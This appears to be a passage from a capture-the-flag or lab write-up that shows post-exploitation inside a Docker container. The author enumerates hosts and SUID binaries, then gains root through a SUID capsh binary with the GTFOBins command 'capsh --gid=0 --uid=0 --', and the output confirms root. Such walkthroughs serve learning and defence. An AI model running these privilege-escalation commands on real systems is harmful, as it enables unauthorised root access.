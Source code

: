 {{< highlight bash "hl_lines=8 13 17 19" >}}

(remote) www-data@50bca5e748b0:/$ cat /etc/hosts
127.0.0.1 localhost
::1 localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.19.0.3 50bca5e748b0
(remote) www-data@50bca5e748b0:/$ l
total 452
drwxr-xr-x 1 root root 4096 Mar 21 10:49 .
drwxr-xr-x 1 root root 4096 Mar 21 10:49 ..
-rwxr-xr-x 1 root root 0 Mar 21 10:49 .dockerenv
...snip...
...snip...
(remote) www-data@50bca5e748b0:/$ ip a
bash: ip: command not found
(remote) www-data@50bca5e748b0:/$ ifconfig
bash: ifconfig: command not found

{{< /highlight >}}

The container doesn't have `sudo`, but it does have a few binaries with the SUID bit set and owned by root.

{{< highlight bash "hl_lines=7" >}}

(remote) www-data@50bca5e748b0:/$ find / -perm -4000 2>/dev/null
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/newgrp
/sbin/capsh
/bin/mount
/bin/umount
/bin/bash
/bin/su

{{< /highlight >}}

The `capsh` binary is uncommon. Using the exploit from [GTFObins](https://gtfobins.github.io/gtfobins/capsh/), can escalate to root within the container.

Normally, processes have the same real-uid (the UID of the user executing the binary) and effective-uid (the UID of the owner). However, in the case of binaries with the SUID bit set, the effective-uid is changed to the file's owner, while the real-uid remains the same, essentially granting the processes escalated privileges.

```bash
(remote) www-data@50bca5e748b0:/$ capsh --gid=0 --uid=0 --
root@50bca5e748b0:/# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@50bca5e748b0:/#
```
